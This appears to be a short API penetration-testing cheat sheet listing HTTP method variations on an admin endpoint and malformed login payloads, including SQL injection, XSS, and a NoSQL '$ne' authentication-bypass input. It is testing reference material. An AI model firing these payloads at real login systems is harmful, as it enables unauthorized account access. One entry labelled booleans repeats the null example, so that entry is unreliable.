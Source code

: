 ```

# Request Method

GET /api/admin/list → 
POST /api/admin/list
DELETE /api/admin/list
PUT /api/admin/list
.....



```  
### 0x3. API请求登录授权  
```
# 0x1. empty
{"username": "", "password": ""}

# 0x2. Null values
{"username": null, "password": null}

# 0x3. booleans values
{"username": null, "password": null}

# 0x4. arrarys
{"username": ["admin"], "password": ["admin"]}

# 0x5. objects
{"username": {"username": "admin"}, "password": {"password": "admin"}}

## 0x6. SQLi
{"username": "admin' -- ", "password": ""}
{"username": "admin\" -- ", "password": ""}
...

## 0x7. XSS
{"username": "admin\"><img>", "password": ""}

## 0x8. Missing key
{"username": "admin"}

## 0x9. Tab Characters in Strings
{"username": "admin\t", "password": ""}

## 0x10. escape characters
{"username": "ad\\nmin", "password": ""}

## 0x11. environment variables
{"username": "${username}", "password": "${password}"}

## 0x12. Empty key
{"": "admin", "password": "password"}

## 0x13. multiple values
{"username": ["admin","adm","administrator"], "password": "password"}

## 0x14. multiple escape sequences

{"username": "admin\\r\\n\\t", "password": ""}

## 0x15. NoSQL Injection
{"username": {"$ne": null}, "password": {"$ne": null}}

```